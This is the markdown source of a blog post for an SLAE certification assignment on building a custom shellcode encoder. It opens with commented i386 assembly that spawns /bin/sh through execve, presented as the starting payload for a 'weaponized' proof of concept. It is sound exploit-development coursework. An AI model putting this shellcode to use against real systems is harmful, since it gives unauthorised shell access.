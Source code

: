 ```yaml
---
layout: post
author: thesp0nge
title: "Assignment #4: A custom encoder"
tags: [slae, shellcode, encoder, xor, assembler, i386]
comments: true
category: [slae]
share: true
order: 4
---
```


The fourth assignment for SLAE certification is to create a custom encoding
scheme and create a weaponized PoC using che execve-stack assembler code.

The assignment was written on an Ubuntu Linux 18.04, with a Linux kernel 4.15
version.

## The starting payload

We start our weaponized proof of concept from this assembler code

{%highlight assembly%}
; Filename: 	execve.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>  
; Website:  	https://codiceinsicuro.it
; Blog post:  	https://codiceinsicuro.it/slae/
; Twitter:   	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	This is the default payload for the customer encoder demo. It
; 		will execute "/bin/sh" using execve() system call.

global _start			

section .text

_start:
	xor eax, eax		; init EAX to 0
	push eax		; pushing 0 to the stack to be used as NULL
				; ending character for /bin/sh string
	
	; execve is defined as #define __NR_execve 11 in 
	; /usr/include/i386-linux-gnu/asm/unistd_32.h:
	;
	; system call prototype is: 
        ; int execve(const char *filename, char *const argv[], 
	; 		char *const envp[]);

	push 0x68732f2f		; pushing //bin/sh into the stack
	push 0x6e69622f		; the init double / is for alignment purpose

	mov ebx, esp		; pointer to *filename

	; I will optimize further my execve-stack shellcode. Since I don't care
	; about passing parameters to my shell and to pass the environment
	; pointer, I can initialize to zero both ECX and EDX registers.
	;
	; This will be equivalent to the call: execve("/bin/sh", 0, 0) that it
	; is legit.
	xor ecx, ecx
	xor edx, edx

	mov al, 0xb		; execve = 11
	int 0x80
{%endhighlight%}
